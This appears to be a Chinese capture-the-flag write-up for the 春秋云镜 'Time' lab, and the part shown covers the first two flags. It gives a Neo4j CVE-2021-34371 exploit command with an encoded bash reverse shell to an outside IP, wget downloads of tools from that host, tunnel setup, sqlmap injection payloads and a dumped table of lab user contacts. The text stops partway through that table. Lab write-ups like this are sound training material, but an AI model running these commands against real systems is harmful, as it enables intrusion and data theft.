










---
title: "春秋云镜Time"
date: 2025-11-07T11:29:41+08:00
summary: "考点: Neo4j RCE sqlmap一把梭 AS-REP Roasting 抓Windows自动登录密码 SID历史功能滥用"
url: "/posts/春秋云镜Time/"
categories:
  - "春秋云镜"
tags:
  - "Time"
draft: false
---



## 考点

- Neo4j RCE
- sqlmap一把梭
- AS-REP Roasting
- 抓Windows自动登录密码
- SID历史功能滥用

## flag1

常规扫端口

```bash
root@VM-16-12-ubuntu:/opt# ./fscan -h 39.99.134.81 -p 1-65535

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.4
start infoscan
39.99.134.81:22 open
39.99.134.81:1337 open
39.99.134.81:7474 open
39.99.134.81:7473 open
39.99.134.81:7687 open
39.99.134.81:45145 open
[*] alive ports len is: 6
start vulscan
[*] WebTitle http://39.99.134.81:7474  code:303 len:0      title:None 跳转url: http://39.99.134.81:7474/browser/
[*] WebTitle http://39.99.134.81:7474/browser/ code:200 len:3279   title:Neo4j Browser
[*] WebTitle https://39.99.134.81:7473 code:303 len:0      title:None 跳转url: https://39.99.134.81:7473/browser/
[*] WebTitle https://39.99.134.81:7687 code:400 len:50     title:None
[*] WebTitle https://39.99.134.81:7473/browser/ code:200 len:3279   title:Neo4j Browser
已完成 6/6
[*] 扫描结束,耗时: 43.660254463s
```

看到一个7474端口的Neo4j Browser

### CVE-2021-34371

Neo4j Browser 是 Neo4j 图数据库（Graph Database）的官方 Web 界面工具，有nday，编号是CVE-2021-34371

github通告https://github.com/advisories/GHSA-pc4w-8v5j-29w9 利用工具 https://github.com/zwjjustdoit/CVE-2021-34371.jar

看看用法

```bash
E:\脚本和字典\poc库\CVE-2021-34371\CVE-2021-34371.jar-main>java -jar rhino_gadget.jar
Usage: java -jar Neo4jAttacker.jar [target] [command]
Example: java -jar Neo4jAttacker.jar rmi://127.0.0.1:1337 "touch /tmp/success"
```

尝试反弹shell

```bash
base64编码：bash -i >& /dev/tcp/124.223.25.186/2333 0>&1

YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjQuMjIzLjI1LjE4Ni8yMzMzIDA+JjE=

java -jar rhino_gadget.jar rmi://39.98.127.235:1337 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjQuMjIzLjI1LjE4Ni8yMzMzIDA+JjE=}|{base64,-d}|{bash,-i}"
```



随后在home目录下拿到flag1

```bash
neo4j@ubuntu:/$ ls home
ls home
neo4j
neo4j@ubuntu:/$ ls home/neo4j
ls home/neo4j
flag01.txt
neo4j@ubuntu:/$ cat home/neo4j/flag01.txt
cat home/neo4j/flag01.txt
 ██████████ ██                    
░░░░░██░░░ ░░                     
    ░██     ██ ██████████   █████ 
    ░██    ░██░░██░░██░░██ ██░░░██
    ░██    ░██ ░██ ░██ ░██░███████
    ░██    ░██ ░██ ░██ ░██░██░░░░ 
    ░██    ░██ ███ ░██ ░██░░██████
    ░░     ░░ ░░░  ░░  ░░  ░░░░░░ 


flag01: flag{7f5dadf0-94e0-4345-ae93-871f97b6b23b}

Do you know the authentication process of Kerberos? 
......This will be the key to your progress.
```

## 内网穿透

接下来就是搭建代理和fscan扫ip

```bash
cd /tmp

wget http://124.223.25.186/fscan
wget http://124.223.25.186/linux_x64_agent

chmod +x *
```

### fscan内网扫描

先看看当前内网ip

```bash
neo4j@ubuntu:/tmp$ ifconfig
ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.22.6.36  netmask 255.255.0.0  broadcast 172.22.255.255
        inet6 fe80::216:3eff:fe38:afad  prefixlen 64  scopeid 0x20<link>
        ether 00:16:3e:38:af:ad  txqueuelen 1000  (Ethernet)
        RX packets 178273  bytes 141724243 (141.7 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 96606  bytes 25208502 (25.2 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 772  bytes 69942 (69.9 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 772  bytes 69942 (69.9 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

扫描ip

```bash
neo4j@ubuntu:/tmp$ ./fscan -h 172.22.6.0/24 
./fscan -h 172.22.6.0/24 

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.4
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 172.22.6.12     is alive
(icmp) Target 172.22.6.36     is alive
(icmp) Target 172.22.6.38     is alive
(icmp) Target 172.22.6.25     is alive
[*] Icmp alive hosts len is: 4
172.22.6.25:445 open
172.22.6.12:445 open
172.22.6.25:139 open
172.22.6.12:135 open
172.22.6.38:80 open
172.22.6.38:22 open
172.22.6.12:88 open
172.22.6.36:7687 open
172.22.6.12:139 open
172.22.6.25:135 open
172.22.6.36:22 open
[*] alive ports len is: 11
start vulscan
[*] WebTitle http://172.22.6.38        code:200 len:1531   title:后台登录
[*] NetInfo 
[*]172.22.6.25
   [->]WIN2019
   [->]172.22.6.25
[*] NetInfo 
[*]172.22.6.12
   [->]DC-PROGAME
   [->]172.22.6.12
[*] OsInfo 172.22.6.12  (Windows Server 2016 Datacenter 14393)
[*] NetBios 172.22.6.25     XIAORANG\WIN2019              
[*] NetBios 172.22.6.12     [+] DC:DC-PROGAME.xiaorang.lab       Windows Server 2016 Datacenter 14393
[*] WebTitle https://172.22.6.36:7687  code:400 len:50     title:None
已完成 11/11
[*] 扫描结束,耗时: 12.141945237s
```

- 172.22.6.36 已经被拿下
- 172.22.6.12 DC:DC-PROGAME.xiaorang.lab
- 172.22.6.25 XIAORANG\WIN2019
- 172.22.6.38 后台登录

### 搭建隧道

```bash
./linux_x64_agent -c 124.223.25.186:2334 -s 123 --reconnect 8

./linux_64_admin -l 2334 -s 123

use 0
socks 3333

sudo vim /etc/proxychains4.conf
```

proxifier配置socks代理

## flag2

有web机器肯定是先打web机器了，访问172.22.6.38看看


用户名是admin，密码估计是需要爆破的，用bp抓个包

bp需要配置一下socks代理



然后就能抓到包了，抓包进行爆破



但是没爆出来

### SQLMAP一把梭

换sqlmap跑一下没想到一把梭哈了

```bash
E:\python3.12.8\sqlmap>python sqlmap.py -r 1.txt --dump
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.9.2.15#dev}
|_ -| . [)]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:03:33 /2025-11-07/

[12:03:33] [INFO] parsing HTTP request from '1.txt'
[12:03:33] [INFO] resuming back-end DBMS 'mysql'
[12:03:33] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 2006 FROM (SELECT(SLEEP(5)))itLY) AND 'bmqV'='bmqV&password=1

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: username=admin' UNION ALL SELECT NULL,CONCAT(0x71787a6b71,0x51775871614e7456674c64746e6d524b726a43737a7265596a46466570627a4371456d4b656c796b,0x7162787171),NULL-- -&password=1
---
[12:03:34] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 20.04 or 20.10 or 19.10 (eoan or focal)
web application technology: Apache 2.4.41
back-end DBMS: MySQL >= 5.0.12
[12:03:34] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[12:03:34] [INFO] fetching current database
[12:03:34] [INFO] fetching tables for database: 'oa_db'
[12:03:34] [INFO] fetching columns for table 'oa_f1Agggg' in database 'oa_db'
[12:03:34] [INFO] fetching entries for table 'oa_f1Agggg' in database 'oa_db'
Database: oa_db
Table: oa_f1Agggg
[1 entry]
+----+--------------------------------------------+
| id | flag02                                     |
+----+--------------------------------------------+
| 1  | flag{b142f5ce-d9b8-4b73-9012-ad75175ba029} |
+----+--------------------------------------------+

[12:03:34] [INFO] table 'oa_db.oa_f1Agggg' dumped to CSV file 'C:\Users\23232\AppData\Local\sqlmap\output\172.22.6.38\dump\oa_db\oa_f1Agggg.csv'
[12:03:34] [INFO] fetching columns for table 'oa_users' in database 'oa_db'
[12:03:34] [INFO] fetching entries for table 'oa_users' in database 'oa_db'
Database: oa_db
Table: oa_users
[500 entries]
+-----+----------------------------+-------------+-----------------+
| id  | email                      | phone       | username        |
+-----+----------------------------+-------------+-----------------+
[12:03:34] [WARNING] console output will be trimmed to last 256 rows due to large table size
| 245 | chenyan@xiaorang.lab       | 18281528743 | CHEN YAN        |
| 246 | tanggui@xiaorang.lab       | 18060615547 | TANG GUI        |
| 247 | buning@xiaorang.lab        | 13046481392 | BU NING         |
| 248 | beishu@xiaorang.lab        | 18268508400 | BEI SHU         |
| 249 | shushi@xiaorang.lab        | 17770383196 | SHU SHI         |
| 250 | fuyi@xiaorang.lab          | 18902082658 | FU YI           |
| 251 | pangcheng@xiaorang.lab     | 18823789530 | PANG CHENG      |
| 252 | tonghao@xiaorang.lab       | 13370873526 | TONG HAO        |
| 253 | jiaoshan@xiaorang.lab      | 15375905173 | JIAO SHAN       |
| 254 | dulun@xiaorang.lab         | 13352331157 | DU LUN          |
| 255 | kejuan@xiaorang.lab        | 13222550481 | KE JUAN         |
| 256 | gexin@xiaorang.lab         | 18181553086 | GE XIN          |
| 257 | lugu@xiaorang.lab          | 18793883130 | LU GU           |
| 258 | guzaicheng@xiaorang.lab    | 15309377043 | GU ZAI CHENG    |
| 259 | feicai@xiaorang.lab        | 13077435367 | FEI CAI         |
| 260 | ranqun@xiaorang.lab        | 18239164662 | RAN QUN         |
| 261 | zhouyi@xiaorang.lab        | 13169264671 | ZHOU YI         |
| 262 | shishu@xiaorang.lab        | 18592890189 | SHI SHU         |
| 263 | yanyun@xiaorang.lab        | 15071085768 | YAN YUN         |
| 264 | chengqiu@xiaorang.lab      | 13370162980 | CHENG QIU       |
| 265 | louyou@xiaorang.lab        | 13593582379 | LOU YOU         |
| 266 | maqun@xiaorang.lab         | 15235945624 | MA QUN          |
| 267 | wenbiao@xiaorang.lab       | 13620643639 | WEN BIAO        |
| 268 | weishengshan@xiaorang.lab  | 18670502260 | WEI SHENG SHAN  |
| 269 | zhangxin@xiaorang.lab      | 15763185760 | ZHANG XIN       |
| 270 | chuyuan@xiaorang.lab       | 18420545268 | CHU YUAN        |
| 271 | wenliang@xiaorang.lab      | 13601678032 | WEN LIANG       |
| 272 | yulvxue@xiaorang.lab       | 18304374901 | YU LV XUE       |
| 273 | luyue@xiaorang.lab         | 18299785575 | LU YUE          |
| 274 | ganjian@xiaorang.lab       | 18906111021 | GAN JIAN        |
| 275 | pangzhen@xiaorang.lab      | 13479328562 | PANG ZHEN       |
| 276 | guohong@xiaorang.lab       | 18510220597 | GUO HONG        |
| 277 | lezhong@xiaorang.lab       | 15320909285 | LE ZHONG        |
| 278 | sheweiyue@xiaorang.lab     | 13736399596 | SHE WEI YUE     |
| 279 | dujian@xiaorang.lab        | 15058892639 | DU JIAN         |
| 280 | lidongjin@xiaorang.lab     | 18447207007 | LI DONG JIN     |
| 281 | hongqun@xiaorang.lab       | 15858462251 | HONG QUN        |
| 282 | yexing@xiaorang.lab        | 13719043564 | YE XING         |
| 283 | maoda@xiaorang.lab         | 13878840690 | MAO DA          |
| 284 | qiaomei@xiaorang.lab       | 13053207462 | QIAO MEI        |
| 285 | nongzhen@xiaorang.lab      | 15227699960 | NONG ZHEN       |
| 286 | dongshu@xiaorang.lab       | 15695562947 | DONG SHU        |
| 287 | zhuzhu@xiaorang.lab        | 13070163385 | ZHU ZHU         |
| 288 | jiyun@xiaorang.lab         | 13987332999 | JI YUN          |
| 289 | qiguanrou@xiaorang.lab     | 15605983582 | QI GUAN ROU     |
| 290 | yixue@xiaorang.lab         | 18451603140 | YI XUE          |
| 291 | chujun@xiaorang.lab        | 15854942459 | CHU JUN         |
| 292 | shenshan@xiaorang.lab      | 17712052191 | SHEN SHAN       |
| 293 | lefen@xiaorang.lab         | 13271196544 | LE FEN          |
| 294 | yubo@xiaorang.lab          | 13462202742 | YU BO           |
| 295 | helianrui@xiaorang.lab     | 15383000907 | HE LIAN RUI     |
| 296 | xuanqun@xiaorang.lab       | 18843916267 | XUAN QUN        |
| 297 | shangjun@xiaorang.lab      | 15162486698 | SHANG JUN       |
| 298 | huguang@xiaorang.lab       | 18100586324 | HU GUANG        |
| 299 | wansifu@xiaorang.lab       | 18494761349 | WAN SI FU       |
| 300 | fenghong@xiaorang.lab      | 13536727314 | FENG HONG       |
| 301 | wanyan@xiaorang.lab        | 17890844429 | WAN YAN         |
| 302 | diyan@xiaorang.lab         | 18534028047 | DI YAN          |
| 303 | xiangyu@xiaorang.lab       | 13834043047 | XIANG YU        |
| 304 | songyan@xiaorang.lab       | 15282433280 | SONG YAN        |
| 305 | fandi@xiaorang.lab         | 15846960039 | FAN DI          |
| 306 | xiangjuan@xiaorang.lab     | 18120327434 | XIANG JUAN      |
| 307 | beirui@xiaorang.lab        | 18908661803 | BEI RUI         |
| 308 | didi@xiaorang.lab          | 13413041463 | DI DI           |
| 309 | zhubin@xiaorang.lab        | 15909558554 | ZHU BIN         |
| 310 | lingchun@xiaorang.lab      | 13022790678 | LING CHUN       |
| 311 | zhenglu@xiaorang.lab       | 13248244873 | ZHENG LU        |
| 312 | xundi@xiaorang.lab         | 18358493414 | XUN DI          |
| 313 | wansishun@xiaorang.lab     | 18985028319 | WAN SI SHUN     |
| 314 | yezongyue@xiaorang.lab     | 13866302416 | YE ZONG YUE     |
| 315 | bianmei@xiaorang.lab       | 18540879992 | BIAN MEI        |
| 316 | shanshao@xiaorang.lab      | 18791488918 | SHAN SHAO       |
| 317 | zhenhui@xiaorang.lab       | 13736784817 | ZHEN HUI        |
| 318 | chengli@xiaorang.lab       | 15913267394 | CHENG LI        |
| 319 | yufen@xiaorang.lab         | 18432795588 | YU FEN          |
| 320 | jiyi@xiaorang.lab          | 13574211454 | JI YI           |
| 321 | panbao@xiaorang.lab        | 13675851303 | PAN BAO         |
| 322 | mennane@xiaorang.lab       | 15629706208 | MEN NAN E       |
| 323 | fengsi@xiaorang.lab        | 13333432577 | FENG SI         |
| 324 | mingyan@xiaorang.lab       | 18296909463 | MING YAN        |
| 325 | luoyou@xiaorang.lab        | 15759321415 | LUO YOU         |
| 326 | liangduanqing@xiaorang.lab | 13150744785 | LIANG DUAN QING |
| 327 | nongyan@xiaorang.lab       | 18097386975 | NONG YAN        |
| 328 | haolun@xiaorang.lab        | 15152700465 | HAO LUN         |
| 329 | oulun@xiaorang.lab         | 13402760696 | OU LUN          |
| 330 | weichipeng@xiaorang.lab    | 18057058937 | WEI CHI PENG    |
| 331 | qidiaofang@xiaorang.lab    | 18728297829 | QI DIAO FANG    |
| 332 | xuehe@xiaorang.lab         | 13398862169 | XUE HE          |
| 333 | chensi@xiaorang.lab        | 18030178713 | CHEN SI         |
| 334 | guihui@xiaorang.lab        | 17882514129 | GUI HUI         |
| 335 | fuyue@xiaorang.lab         | 18298436549 | FU YUE          |
| 336 | wangxing@xiaorang.lab      | 17763645267 | WANG XING       |
| 337 | zhengxiao@xiaorang.lab     | 18673968392 | ZHENG XIAO      |
| 338 | guhui@xiaorang.lab         | 15166711352 | GU HUI          |
| 339 | baoai@xiaorang.lab         | 15837430827 | BAO AI          |
| 340 | hangzhao@xiaorang.lab      | 13235488232 | HANG ZHAO       |
| 341 | xingye@xiaorang.lab        | 13367587521 | XING YE         |
| 342 | qianyi@xiaorang.lab        | 18657807767 | QIAN YI         |
| 343 | xionghong@xiaorang.lab     | 17725874584 | XIONG HONG      |
| 344 | zouqi@xiaorang.lab         | 15300430128 | ZOU QI          |
| 345 | rongbiao@xiaorang.lab      | 13034242682 | RONG BIAO       |
| 346 | gongxin@xiaorang.lab       | 15595839880 | GONG XIN        |
| 347 | luxing@xiaorang.lab        | 18318675030 | LU XING         |
| 348 | huayan@xiaorang.lab        | 13011805354 | HUA YAN         |
| 349 | duyue@xiaorang.lab         | 15515878208 | DU YUE          |
| 350 | xijun@xiaorang.lab         | 17871583183 | XI JUN          |
| 351 | daiqing@xiaorang.lab       | 18033226216 | DAI QING        |
| 352 | yingbiao@xiaorang.lab      | 18633421863 | YING BIAO       |
| 353 | hengteng@xiaorang.lab      | 15956780740 | HENG TENG       |
| 354 | changwu@xiaorang.lab       | 15251485251 | CHANG WU        |
| 355 | chengying@xiaorang.lab     | 18788248715 | CHENG YING      |
| 356 | luhong@xiaorang.lab        | 17766091079 | LU HONG         |
| 357 | tongxue@xiaorang.lab       | 18466102780 | TONG XUE        |
| 358 | xiangqian@xiaorang.lab     | 13279611385 | XIANG QIAN      |
| 359 | shaokang@xiaorang.lab      | 18042645434 | SHAO KANG       |
| 360 | nongzhu@xiaorang.lab       | 13934236634 | NONG ZHU        |
| 361 | haomei@xiaorang.lab        | 13406913218 | HAO MEI         |
| 362 | maoqing@xiaorang.lab       | 15713298425 | MAO QING        |
| 363 | xiai@xiaorang.lab          | 18148404789 | XI AI           |
| 364 | bihe@xiaorang.lab          | 13628593791 | BI HE           |
| 365 | gaoli@xiaorang.lab         | 15814408188 | GAO LI          |
| 366 | jianggong@xiaorang.lab     | 15951118926 | JIANG GONG      |
| 367 | pangning@xiaorang.lab      | 13443921700 | PANG NING       |
| 368 | ruishi@xiaorang.lab        | 15803112819 | RUI SHI         |
| 369 | wuhuan@xiaorang.lab        | 13646953078 | WU HUAN         |
| 370 | qiaode@xiaorang.lab        | 13543564200 | QIAO DE         |
| 371 | mayong@xiaorang.lab        | 15622971484 | MA YONG         |
| 372 | hangda@xiaorang.lab        | 15937701659 | HANG DA         |
| 373 | changlu@xiaorang.lab       | 13734991654 | CHANG LU        |
